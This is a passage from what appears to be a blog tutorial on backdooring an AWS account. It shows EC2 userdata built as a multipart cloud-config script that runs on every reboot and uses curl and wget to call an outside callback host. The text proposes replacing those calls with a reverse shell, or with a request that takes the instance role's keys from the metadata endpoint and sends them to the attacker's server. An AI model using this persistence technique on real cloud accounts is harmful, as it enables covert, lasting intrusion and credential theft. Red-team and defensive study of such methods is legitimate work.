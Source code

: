 ![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-05-01-Stopping-Instance.png)
_Stopping an instance_


Before we use the userdata, let's see what our script looks like:

```bash
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
curl http://jzm9mtpy9r9om5l5j21yvcxxjopfd51u.oastify.com?pwned=yes
wget http://jzm9mtpy9r9om5l5j21yvcxxjopfd51u.oastify.com/pwned.txt
--//
```

- Notice the value `[scripts-user, always]`, this ensures that this script runs at each reboot.
- In the end, we are using bash commands that will only send an HTTP request to our specified server. We can replace this with our backdoors, few examples:
  - A reverse shell.
  - We can send a request to the instance metadata endpoint, get the keys of the role associated with this ec2 instance, and send them to our server.

> Before proceeding, make sure to encode the above script file to base64: `cat userdata.txt | base64 > userdata.b64.txt`
{: .prompt-tip}


Now we will modify the userdata script for our target instance that we just stopped:
